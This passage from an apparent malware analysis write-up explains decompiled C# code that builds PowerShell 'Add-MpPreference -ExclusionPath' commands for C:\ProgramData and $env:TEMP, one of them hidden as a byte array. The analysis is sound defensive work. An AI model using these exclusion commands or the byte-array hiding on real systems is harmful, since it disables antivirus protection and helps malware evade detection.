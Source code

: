 <img src="assets/images/blogs/Phenedrome/defender-exclusion.png" alt="defender exclusion path" width="800" height="800">

It starts by getting the first folder path it it's list, shown below, which resolves to `C:\ProgramData`.

```cs
string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.CommonApplicationData);
```

Next, it builds the command componants:

```cs
string text2 = "Add-MpPreference";
string text3 = "-ExclusionPath";
```

Following this, it constructs the full exclusion command:

```cs
string text4 = "Add-MpPreference -ExclusionPath \"C:\\ProgramData\""
```

Underneath, there is a bytes block that, when decoded to it's ASCII equivalaent, resolves to `Add-MpPreference -ExclusionPath $env:TEMP`

```cs
byte[] array3 = {
  65, 100, 100, 45, 77, 112, 80, 114, 101, 102,
  101, 114, 101, 110, 99, 101, 32, 45, 69, 120,
  99, 108, 117, 115, 105, 111, 110, 80, 97, 116,
  104, 32, 36, 101, 110, 118, 58, 84, 69, 77,
  80
};
```
